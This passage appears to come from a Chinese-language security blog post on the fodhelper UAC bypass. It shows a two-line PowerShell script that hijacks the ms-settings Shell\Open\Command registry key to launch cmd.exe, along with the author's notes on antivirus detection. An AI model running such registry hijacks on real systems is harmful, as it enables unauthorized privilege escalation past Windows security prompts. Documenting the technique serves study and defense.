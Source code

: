 但是直接点击确定,我们会发现,这个注册表ui进程直接被杀了,并且微软报毒,所以这里是做了管控的;

![image-20240723163143006](/img/BypassUAC_fodhelper进程Registry-Shell_Open_Command提权/image-20240723163143006.png)

我们可以尝试使用脚本测试下:

```powershell
[String]$PE = "c:\windows\system32\cmd.exe"
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $PE -Force
```

运行,结果如下,秒被杀,但是我们查看regedit会发现,相关命令已经写入了,这里写入的路径就是cmd,就很神奇)



![image-20240723163552424](/img/BypassUAC_fodhelper进程Registry-Shell_Open_Command提权/image-20240723163552424.png)
